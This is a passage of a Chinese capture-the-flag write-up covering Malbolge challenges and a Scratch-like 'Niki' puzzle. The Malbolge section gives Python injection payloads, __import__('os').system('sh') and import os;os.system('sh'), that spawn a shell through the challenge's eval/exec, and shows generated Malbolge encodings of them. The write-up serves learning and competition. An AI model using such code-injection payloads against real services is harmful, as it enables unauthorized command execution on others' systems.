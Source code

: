 ```python
eval(input())
```

搜到了这个

```
'C<;:?87[;:3216543,P*/.-,+*#"!E%${zy~w=^ts[wpunVrTji/PledLbJIHG]\aZBAW?UT<X:VUTSLKJ2HMLK-CgA
@?D&%;:9!=6;43W70/S-,+0)M-&+$H"!&%|#z!~wv{tyxqYoWmlkpihmle+iba'e%p
```

### Malbolge3 Revenge:

这次不能用eval了，考虑直接使用os.system

```
__import__('os').system('sh')
```

由于题目用了exec，可以执行多条代码，所以可以用这个更短的

```
import os;os.system("sh")
```

通过搜索发现了一个比较高效的生成器http://zb3.me/malbolge-tools/#generator，用它的第二个模式生成，Max branches between progress设成7就可以找到满足长度要求的结果

```
(&B;_#87[}43Wy0/Su,+Oq('KmkHih~Df{z@>a_N;:xqY6WWVk1/{g,kd*Lt`H%cF!D_B|z>yf+dctr7_p]O2lkE.hfG)db=<A$^\J}5|XV70v.3QP0qLKJI[H(!Ef|{z@b`v<^\9Zputm3Uji/QOe+MKg`&^cFaZ~AW{?><w;99sq
```

### Niki:

这道题是一个类似 Scratch 的东西，用附件里面的程序打开 `german_scrambled.pas` 就可以加载题目程序了：


![](https://i.imgur.com/jsXpftq.png)

尝试运行之后发现这个程序有很多都是向下走的指令，但是默认那个机器人在左下角，再往下就会报错，而且初始的 Material（就相当于颜料数量）为0，画不了图案，所以点击左上角的格子按钮调整一下：

![](https://i.imgur.com/OqRDlL9.png)

然后就会发现机器人会画很多东西出来，比较乱，而且后面还是会到边界报错，于是尝试一个函数一个函数跑：

![](https://i.imgur.com/0DtMwaA.png)

![](https://i.imgur.com/82zfHal.png)

可以看到 `h;` 打出了一个大写的 P，然后挨个把文件里面的函数都运行一遍就有了下面的：

```
h -> P
o -> S
brackl -> (
a -> O
v -> E
u -> I
brackr -> )
q -> D
p -> K
l -> T
```
